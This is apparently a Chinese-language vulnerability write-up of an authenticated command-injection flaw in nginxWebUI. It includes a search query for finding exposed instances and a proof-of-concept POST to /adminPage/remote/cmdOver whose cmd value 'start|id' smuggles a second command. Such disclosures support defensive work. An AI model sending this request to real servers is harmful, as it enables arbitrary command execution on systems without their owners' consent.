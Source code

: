 # 

# nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

```
nginxWebUI
```

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20220628112638269](./images/202206281126396.png)



验证请求包

```
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![image-20220628112938342](./images/202206281129491.png)
